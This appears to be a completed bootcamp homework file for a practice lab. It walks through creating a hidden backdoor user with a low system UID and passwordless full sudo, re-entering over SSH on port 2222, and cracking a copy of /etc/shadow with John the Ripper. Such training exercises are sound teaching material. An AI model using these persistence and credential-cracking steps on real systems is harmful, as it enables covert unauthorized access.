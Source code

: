 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:


                root:~\ $ adduser --no-create-home sysd

![create_user_no_home](image/add_user_no_home2.png)



       



2. Give your secret user a password: 


        root:~\ $ passwd sysd

![set_up_password](image/set_up_password2.png)




3. Give your secret user a system UID < 1000:

                 root:~\ $ usermod -u 14 sysd
       

![change_UID](image/change_group_GID2.png)



        

4. Give your secret user the same GID:


        root:~\ $ sudo groupmod -g 14 sysd


![change_group_GID](image/change_group_GID3.png)



5. Give your secret user full `sudo` access without the need for a password:


        sysd ALL=(ALL) NOPASSWD:ALL


![sudo_access_no_password](image/Sudo_access_without_password.png)



6. Test that `sudo` access works without your password:


        sysd@scavenger-hunt:/etc$ sudo visudo



![No_password](image/verifying_root_access_wo_password%20.png)








**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

root:ssh\ $ nano sshd_config




![Editing_sshd_config](image/Nano_sshd_config.png)


**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:


root:ssh\ $ sudo systemctl reload ssh



![Restarting_sshd](image/Changing_ports_in_sshd_config.png)



2. Exit the `root` account:

        root:~\ $ su sysadmin

![Switch_user](image/Switch_user.png)



3. SSH to the target machine using your `sysd` account and port `2222`:

                ssh sysd@192.168.6.105 -p 2222


![ssh_command_backintosystem](image/ssh_command_backintosystem.png)



4. Use `sudo` to switch to the root user.


                sysd@scavenger-hunt:~$ sudo -s

![switch_user_to_root](image/switch_user_to_root.png)



**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

root@scavenger-hunt:~# ssh sysd@192.168.6.105 -p 2222


2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

                root@scavenger-hunt:/# sudo john shadow_copy

![john_the ripper](image/John_the_ripper_hashtags.png)



---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

